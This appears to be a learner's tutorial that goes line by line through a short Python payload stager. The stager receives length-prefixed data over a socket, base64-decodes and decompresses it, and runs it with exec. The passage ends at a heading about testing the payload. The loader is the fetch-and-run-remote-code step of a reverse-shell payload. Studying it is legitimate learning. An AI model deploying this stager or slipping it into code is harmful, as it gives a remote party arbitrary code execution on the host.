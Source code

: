 
```python
l=struct.unpack('>I',s.recv(4))[0]
d=s.recv(l)
while len(d)<l:
	d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{'s':s})
```

I have no idea whats going on here. But I will try to figure it out line by line.

```python
l=struct.unpack('>I',s.recv(4))[0]
```

struct.unpack() is a function that unpacks

'>I' is the format/size of the struct

Remember how we connected to the server using the variable s

Well by now we have a connection, so we use s.recv(4) to receive data from the server. In this case 4 represents an argument for the function (Data that we give it) which is the buff-size we request (Think of it like size of the data)

So this line unpacks the data from the server, of size '>I',  then takes the first element ([0])

Im guessing that first element we just got is the size of the next data that will be received, because we take it and use it as an argument to receive more data from the server.

```python
d=s.recv(l)
```

So now d is the next set of data we got

```python
while len(d)<l:
	d+=s.recv(l-len(d))
```

while the length of the data in variable d is less than the value of l.

 Keep adding to d the data from the server that is the difference between l and the length of data in d. To make sure that we get all the data I guess.

```python
exec(zlib.decompress(base64.b64decode(d)),{'s':s})
```

exec takes a python code inside of a string and runs it

In this line we are going to work inside out.

1. Decode the data in d from base64
2. Decompress it
3. Run it

## Running the payload

Lets try to test if the payload works!
